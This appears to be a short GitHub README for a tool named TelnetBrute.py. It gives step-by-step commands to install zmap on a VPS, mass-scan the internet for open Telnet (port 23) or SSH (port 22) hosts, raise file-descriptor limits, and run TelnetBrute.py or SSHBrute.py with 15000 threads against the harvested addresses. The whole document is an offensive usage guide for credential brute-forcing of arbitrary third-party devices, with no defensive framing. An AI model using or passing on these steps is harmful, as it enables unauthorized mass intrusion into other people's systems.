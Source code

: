 [VPS CentOS 6.9/6.8 2GB-RAM] 

- Install zmap

1- sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- zmap -p23 -o mfutelnet.txt -N 25000    ---OR---    zmap -p22 -o mfussh.txt -w -N 25000

   1,5--(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



